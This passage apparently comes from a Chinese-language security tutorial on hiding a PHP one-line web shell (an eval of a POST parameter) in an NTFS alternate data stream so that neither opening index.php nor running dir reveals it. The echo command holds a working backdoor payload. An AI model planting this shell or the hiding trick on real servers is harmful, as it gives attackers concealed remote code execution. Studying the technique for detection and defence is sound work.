 ```bash
 echo ^<?php @eval($_POST['test']);?^> > index.php:hidden.jpg
```   
![Alt text](image-77.png)   
打开index.php，查看   
![Alt text](image-78.png)   
看不到任何内容。   
使用 `notepad` 查看文件内容。   
```bash
 notepad index.php:hidden.jpg
```
![Alt text](image-79.png)   
普通的 `dir` 也看不到该文件：   